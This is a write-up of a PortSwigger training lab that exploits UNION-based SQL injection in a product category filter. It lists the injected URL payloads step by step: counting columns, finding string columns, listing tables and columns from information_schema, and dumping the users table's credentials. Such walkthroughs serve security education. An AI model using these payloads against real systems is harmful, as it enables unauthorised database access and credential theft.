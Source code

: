 ```yaml
---
title: PortSwigger - SQLi 9 - Listing contents on non-Oracle DB
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user. 

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc'--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM information_schema.columns--
````

179 tables are returned... But after sorting those containing `user` one stands out: `users_ijvpsp`.

Let's print the differents columns of the table:

````
<website>/filter?category=Gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ijvpsp'--
````

We obtain 2 columns: `username_gifugn` and `password_zjiaqz`.

Time to show the passwords!

````
/filter?category=Pets' UNION SELECT username_gifugn, password_zjiaqz FROM users_ijvpsp--
````

Password obtained!
